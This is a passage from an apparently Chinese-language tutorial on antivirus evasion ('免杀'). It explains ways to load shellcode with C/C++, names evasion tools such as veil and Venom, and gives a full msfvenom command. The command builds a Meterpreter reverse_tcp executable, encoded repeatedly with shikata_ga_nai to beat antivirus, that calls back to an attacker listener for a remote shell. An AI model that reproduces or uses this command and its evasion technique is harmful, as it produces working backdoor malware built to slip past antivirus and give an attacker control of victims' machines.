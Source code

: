 VT：

![image-20220527190242985](./images/202205271902073.png)

## C、C++加载shellcode

以上很多方法都是使用msfvenom生成shellcode，然后对shellcode进行混淆、编码等各种处理，最终再使用各种语言进行编译或加载。而被用到的最多的语言就是C/C++、C#和python。

C/C++加载shellcode手工编译的方法，一般分为两种方式：

1. C/C++源码+shellcode直接编译，其中对shellcode的执行可以使用函数指针执行、汇编指令执行、申请动态内存等方式，且shellcode可进行一些加密混淆处理；比如免杀工具veil和Venom都是使用了类似的方法。

2. 使用加载器加载C/C++代码，如shellcode_launcher之类。

### 方法1 msf直接生成exe（VT免杀率51/69）

这是最简单的一种加载shellcode的方法，直接使用msfvenom生成c语言的shellcode，为了提高免杀效果，使用了`shikata_ga_nai`编码器。

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.174.128 lport=6666  -f exe -o shellcode1.exe
```
